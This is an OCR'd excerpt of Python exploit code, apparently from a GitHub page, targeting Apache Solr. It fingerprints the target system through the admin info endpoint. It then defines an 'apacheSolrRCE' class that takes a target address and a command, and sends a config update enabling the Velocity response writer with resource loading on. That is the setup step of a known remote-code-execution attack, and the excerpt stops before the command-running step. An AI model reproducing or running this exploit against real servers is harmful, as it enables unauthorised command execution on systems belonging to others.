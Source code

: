         def get_system(self):
            payload = {
                '_': self.timestamp,
                'wt': 'json'
            }
            url = 'http://' + self.ip + ':' + self.port + '/solr/admin/info/system'
            try:
                system_info = requests.get(url=url, params=payload, timeout=5)
                os_name = system_info.json()['system']['name']
                os_uname = system_info.json()['system']['uname']
                os_version = system_info.json()['system']['version']
                state = 1

            except:
                os_name = ''
                os_uname = ''
                os_version = ''
                state = 0

            return {
                'system': {
                    'name': os_name,
                    'uname': os_uname,
                    'version': os_version,
                    'state': state
                }
            }


    class apacheSolrRCE(object):

        def __init__(self, ip, port, node, command):
            self.ip = ip
            self.port = port
            self.node = node
            self.command = command
            self.url = "http://" + self.ip + ':' + self.port + '/solr/' + self.node

        def init_node_config(self):
            url = self.url + '/config'
            payload = {
                'update-queryresponsewriter': {
                    'startup': 'lazy',
                    'name': 'velocity',
                    'class': 'solr.VelocityResponseWriter',
                    'template.base.dir': '',
                    'solrresource.loader.enabled': 'true',
                    'paramsresource.loader.enabled': 'true'
                }
            }
            try:
                res = requests.post(url=url, data=json.dumps(payload), timeout=5)
                if res.status_code == 200:
                    return {
                        'init': 'Init node config successfully',
                        'state': 1
                    }
                else:
                    return {
                        'init': 'Init node config failed',
                        'state': 0
                    }
            except:
                return {
                    'init': 'Init node config failed',
                    'state': 0